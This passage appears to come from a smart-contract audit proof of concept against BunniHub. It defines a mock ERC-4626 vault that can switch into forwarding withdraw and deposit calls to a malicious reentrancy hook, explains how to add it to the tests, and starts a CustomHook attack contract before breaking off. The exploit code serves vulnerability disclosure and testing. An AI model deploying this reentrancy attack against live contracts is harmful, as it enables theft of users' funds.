 ```solidity
    }

    function name() public pure override returns (string memory) {
        return "MockERC4626";
    }

    function symbol() public pure override returns (string memory) {
        return "MOCK-ERC4626";
    }

    function setupAttack() external {
        attackStarted = true;
    }

    function previewRedeem(uint256 shares) public view override returns (uint256 assets) {
        return type(uint128).max;
    }

    function withdraw(uint256 assets, address to, address owner) public override returns(uint256 shares){
        if(attackStarted) {
            maliciousHook.continueAttackFromMaliciousVault();
        } else {
            return super.withdraw(assets, to, owner);
        }
    }

    function deposit(uint256 assets, address to) public override returns(uint256 shares){
        if(attackStarted) {
            maliciousHook.continueAttackFromMaliciousVault();
        } else {
            return super.deposit(assets, to);
        }
    }
}
```

This vault implementation is just a normal ERC-4626 that can be switched into forwarding the execution to a malicious hook during withdraw and deposit functions. These are the methods that the `BunniHub` will use in order to reach the `targetRawBalance`.

* Inside `test/BaseTest.sol`, change the following import:

```diff
--	import {ERC4626Mock} from "./mocks/ERC4626Mock.sol";
++	import {ERC4626Mock, MaliciousERC4626} from "./mocks/ERC4626Mock.sol";
```

* Inside `test/BunniHub.t.sol`, paste the following malicious hook contract outside of the `BunniHubTest` contract:

```solidity
import {IAmAmm} from "biddog/interfaces/IAmAmm.sol";

enum Vector {
    HOOK_HANDLE_SWAP,
    WITHDRAW
}

contract CustomHook {
    uint256 public reentrancyIterations;
    uint256 public iterationsCounter;
    IBunniHub public hub;
    PoolKey public key;
    address public vault;
    Vector public vec;
```